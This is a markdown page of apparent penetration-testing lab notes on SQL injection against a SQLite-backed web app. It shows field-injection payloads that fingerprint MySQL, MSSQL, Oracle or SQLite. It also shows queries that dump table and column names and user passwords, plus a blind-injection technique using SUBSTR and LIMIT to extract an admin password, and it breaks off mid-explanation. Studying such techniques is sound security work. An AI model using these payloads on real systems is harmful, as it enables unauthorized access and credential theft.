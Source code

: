 # Quaries for Dump from SQLlite Database


********** 

### With this knowledge, we can try to identify what database is in use. There are a few ways to do this, but the easiest way is to ask the database to identify itself. The following queries can be used to identify MySQL, MSSQL, Oracle, and SQLite:

```
# MySQL and MSSQL
',nickName=@@version,email='
# For Oracle
',nickName=(SELECT banner FROM v$version),email='
# For SQLite
',nickName=sqlite_version(),email='
```



**The ```group_concat()``` function is used to dump all the tables simultaneously.**

```
SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
```

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/45abaf5b-2f09-411c-876b-f6b211421ab6)



We can then continue by ```extract all the column names``` from the usertable:

```
SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='usertable'
```

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/ae87ab7b-1b19-4f2c-a3a5-c59b5d2be6b7)



### By knowing the names of the columns, we can extract the data we want from the database. 


```
SELECT group_concat(profileID || "," || name || "," || password || ":") from usertable
```

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/dc5e3631-23bb-4ca6-b603-d0cf6fbccfc1)





***********
************
********

# Broken Authentication (Blind Injection)

The first argument to [substr](https://sqlite.org/lang_corefunc.html#substr) is the string itself, which will be the admin's password. The second argument is the starting position, and the third argument is the length of the substring that will be returned.

```SUBSTR( string, <start>, <length>)```

Below is an example of substr in action - the character after the equal (=) sign demonstrates the substring returned.

-- Changing start
SUBSTR("THM{Blind}", 1,1) = T
SUBSTR("THM{Blind}", 2,1) = H
SUBSTR("THM{Blind}", 3,1) = M

-- Changing length
SUBSTR("THM{Blind}", 1,3) = THM

The next step will be to enter the admin's password as a string into the substr function. This can be achieved with the following query:

(SELECT password FROM users LIMIT 0,1)


The LIMIT clause is used to limit the amount of data returned by the SELECT statement. The first number, 0, is the offset and the second integer is the limit:

LIMIT <OFFSET>, <LIMIT>

Below are a few examples of the LIMIT clause in action. The right table represents the user table.




















